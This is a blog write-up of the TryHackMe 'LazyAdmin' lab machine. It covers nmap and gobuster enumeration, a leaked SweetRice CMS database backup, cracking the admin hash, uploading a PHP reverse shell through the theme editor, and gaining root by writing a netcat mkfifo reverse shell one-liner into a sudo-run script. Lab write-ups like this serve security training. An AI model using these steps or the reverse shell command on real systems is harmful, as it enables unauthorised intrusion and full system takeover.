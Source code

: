 ```yaml
---
layout: article
title:  "TryHackMe - LazyAdmin (Easy)"
description: "Easy Linux machine to practice your skills"
author: 0x5ubt13
date: 2021-01-17 14:30:00 +0000
categories: [Write-Ups, OSCP, Pentesting, Ethical-Hacking, Password-Cracking, Easy, PHP-reverse-shell]
tags: [write-up, OSCP, Pentesting, Ethical-Hacking, Password-Cracking, Easy, PHP-reverse-shell]
math: true
mermaid: true
image: /assets/images/write-ups/tryhackme/lazyadmin/lazyadmin_logo.png
---
```


Welcome to my second write-up, this time based on the room LazyAdmin from TryHackMe. This is the second of a series of rooms I will be covering on my personal Road to OSCP journey.

You can find the room for free in the following link: [TryHackMe - LazyAdmin](https://tryhackme.com/room/lazyadmin)

<p>&nbsp;</p>

# Reconnaissance:

First off as usual, we run our favourite scan to see what's for us in store.

```sh
ip=10.10.115.249
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -oN lazyadmin_initial.nmap -p$ports $ip
```

Since there's nothing special to see in the aggresive scan, I will paste a simplified scan, just to show port 80 and 22 are the only ones open and omitting the rest:

![Scan](/assets/images/write-ups/tryhackme/lazyadmin/scan.png)

Let's dive right into the website!

<p>&nbsp;</p>

# Scouting Port 80:

Upon connecting, we see the dull apache welcoming page:

![Def page](/assets/images/write-ups/tryhackme/lazyadmin/def_page.png)

Looks like it's GoBuster time!

In order to find some hidden directories, a simple Gobuster's command goes like this:

`gobuster -dir -w <your wordlist> -u <the target URL>`

Since this is an easy box, I will be using a small, default list:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249`

![GoBuster first scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_1st_scan.png)

It looks like we have a finding: `/content/`.
If we jump in, we see again a simple default page, however this time we have more information: it's using a CMS called SweetRice.
Finding nothing else, it's time to use Gobuster again, this time adding the directory we found to the base URL:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249/content`

![Gobuster second scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_2nd_scan.png)

Now we are finally advancing somewhere! Let's dig into those directories see what we find.

<p>&nbsp;</p>

# Enumerating Port 80:

I found something interesting whilst taking a peek into the `/inc` folder: an old database!

![Database found](/assets/images/write-ups/tryhackme/lazyadmin/database_found.png)
![Database found 2](/assets/images/write-ups/tryhackme/lazyadmin/database_found2.png)

We have several options now with this MySql database. One, would be to start an database service and load the backup; or we could just cat the code for a quicker, dirtier approach to avoid us some trouble if there was nothing really in there.

`cat mysql_bakup_20191129023059-1.5.1.sql`

Fortunately, there was indeed something valuable in there: the admin password hash! He was a lazy admin indeed...

![Hash found](/assets/images/write-ups/tryhackme/lazyadmin/hash_found.png)

<p>&nbsp;</p>

# Cracking the password:

I know using Hashcat or John The Ripper is really cool, but the quickest way of cracking any hash is just throwing it against rainbow tables in the internet and pray for it to be in the database. In case these fail, we can always sweat trying to crack it, but why going through the whole process if the title of the room is "LazyAdmin"?

![Password cracked](/assets/images/write-ups/tryhackme/lazyadmin/password_cracked.png)

Well, no surprise on this one, it really was a weak password!

<p>&nbsp;</p>

# Find Password, Use Password!

When we peeked over the database backup we found, we also saw the username "manager". Along with knowing the password, we are entitled now to try and login to the website's admin portal, located in one of the directories we enumerated with Gobuster. Enumeration matched with the login portal:

![Login](/assets/images/write-ups/tryhackme/lazyadmin/login.png)

![Admin panel](/assets/images/write-ups/tryhackme/lazyadmin/admin_panel.png)

<p>&nbsp;</p>

# Reverse shell

Once we are inside the admin panel in the website, we start enumerating what's inside. If we take a look inside Themes, we see we can manipulate php files to configure the website's theme with them. Well, smells like php reverse shell!!

![Reverse shell prep](/assets/images/write-ups/tryhackme/lazyadmin/reverse_shell_prep.png)

We will be using Pentest Monkeys' PHP reverse shell. Only thing we have to do is setting up our tun0 IP address and listening in the port we specify.

![Modifying theme php reverse shell](/assets/images/write-ups/tryhackme/lazyadmin/modifying_theme_php_reverse_shell.png)

Now, everything is prepared. All we have to do at this point is navigating to the `_themes` directory we enumerated earlier with Gobuster and finding the php file we edited. 

Set up the listener. 
Click. 
*We are in*. 

![We are in](/assets/images/write-ups/tryhackme/lazyadmin/we_are_in.png)

<p>&nbsp;</p>

# Privilege Escalation Phase

![Privesc prep](/assets/images/write-ups/tryhackme/lazyadmin/privesc_prep.png)

1. We try a quick `sudo -l` to check whether we can use any command as sudo with our current user... And yes!
2. We can call a perl script in the `/home/itguy/` directory without providing `sudo` password.
3. The content of `/home/itguy/backup.pl`. It's non-writable. We can see it's calling a script located in `/etc/` directory. Maybe we can write to it?
4. Taking a look at the permissions of the file, it looks like we can actually write to it and the owner is root!! Therefore, if we modify it to spawn a reverse shell in our ip, we should be able to pop a root shell. Let's try it out!

<p>&nbsp;</p>

# Pwning the machine

Now that we know we have access to that file, let's make it call a root bash reverse shell. 

Since nano is blocked and vi or vim are missing from the system, we can use `echo` redirect to write to a file. 
My full command looks like this:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.0.124 5556 >/tmp/f" > /etc/copy.sh
```

Then, calling the perl script will promote us to boss level on the box:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

![Pwned](/assets/images/write-ups/tryhackme/lazyadmin/pwned.png)

<p>&nbsp;</p>



